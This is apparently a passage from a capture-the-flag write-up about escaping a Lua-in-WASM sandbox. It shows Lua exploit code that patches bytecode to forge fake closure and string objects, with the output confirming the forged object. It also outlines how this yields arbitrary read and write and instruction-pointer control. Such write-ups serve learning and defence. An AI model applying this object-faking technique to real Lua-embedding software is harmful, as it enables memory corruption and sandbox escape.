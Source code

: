 ```lua
      end)(closure)
      return _ENV
    end)(closure), 1337
end)

craft_object = craft_object:gsub("(\x01\x01\x00\x01\x02\x00\x01)\x03", "%1\x04", 1)
craft_object = load(craft_object)
crafted = craft_object(fakeClosure)
print(string.format("Crafted string length is %x", #crafted))
```

> Note: as you can see, in the outer closure, I am returning the faked object by
> returning `_ENV`. This is the first upvalue of the closure, pushed
> automatically by the interpreter for internal reasons. This way,
> I am instructing the interpreter to return **the first upvalue**
> in the upvalues array.

The output of the script confirms that our object has finally citizenship:

```
Fake str at: 0x10bd60
Fake TValue at: 0x112c48
Fake Upvals at: 0x109118
Fake Closureat : 0x109298
nil
nil
LClosure: 0x10a280
Crafted string length is 1337
```

## Escape from Alcawasm

In the linked blogpost, the author describes well the "superpowers"
that exploit developers gain by being able to craft fake objects.

Among these, we have:

- Arbitrary read
- Arbitrary write
- Control over the Instruction Pointer

In this last section, I'll explain why the latter is everything we
need to complete the challenge.

To understand why, it's time to go back to the information gathering.

### (More) Information Gathering

The description of the challenge hints that, in the WASM context,
there is some kind of "win" function that cannot be invoked
directly via lua, and that's the target of our exploit.

Inspecting the JS code that instantiates the WASM assembly
gives some more clarity on this:
